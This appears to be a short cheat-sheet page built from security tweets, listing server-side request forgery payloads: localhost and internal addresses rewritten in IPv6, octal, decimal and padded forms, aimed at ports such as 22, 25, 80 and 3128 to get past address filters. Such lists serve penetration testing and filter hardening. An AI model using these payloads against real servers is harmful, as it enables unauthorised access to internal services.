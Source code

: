 [tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)
![SSRF](/images/ssrf.png)

[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)
>* http://[::]:80/
>* http://[::]:25/
>* http://[::]:22/
>* http://[::]:3128/
>* http://0000:80/::1/
>* http://0000:25/::1/
>* http://0000:22/::1/
>* http://0000:3128/::1/
>* http://127.0.1.3/
>* http://127.0.0.0/
>* http://0177.0.0.1/
>* http://2130706433/
>* http://3232235521/
>* http://3232235777/

